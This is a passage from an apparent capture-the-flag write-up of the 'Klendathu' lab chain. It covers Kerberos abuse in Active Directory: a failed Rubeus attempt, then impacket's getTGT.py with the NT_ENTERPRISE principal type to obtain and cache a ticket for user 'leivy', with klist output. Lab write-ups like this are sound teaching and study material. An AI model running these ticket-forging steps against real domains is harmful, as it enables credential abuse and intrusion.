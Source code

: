 ![alt text](../assets/image_klendathu/8er.png)

Now i tried to ask a tgt by specifying "NT_ENTERPRISE" as name type with Rubeuse on SRV1 :

![alt text](../assets/image_klendathu/9er.png)

But i don't know why this wasn't working

So i was looking for a pull request for "impacket-getTGT" and i found this :

[Pull Request](https://github.com/fortra/impacket/pull/1748)

And as you can see in the example we can see that it gets a .ccache for leivy, so we can deduce that the pull request was made for this chain, perfect let's use it :

```bash
python3 getTGT.py klendathu.vl/'leivy':'newP@ssword2022' -dc-ip 10.10.245.69 -principal NT_ENTERPRISE

[*] Saving ticket in leivy.ccache

export KRB5CCNAME='leivy.ccache'

klist
Ticket cache: FILE:leivy.ccache
Default principal: leivy@KLENDATHU.VL

Valid starting       Expires              Service principal
07/30/2024 14:49:34  07/31/2024 00:49:34  krbtgt/KLENDATHU.VL@KLENDATHU.VL
        renew until 07/31/2024 14:49:44
```
Now we need to modify our /etc/ssh/sshd_config and our /etc/krb5.conf
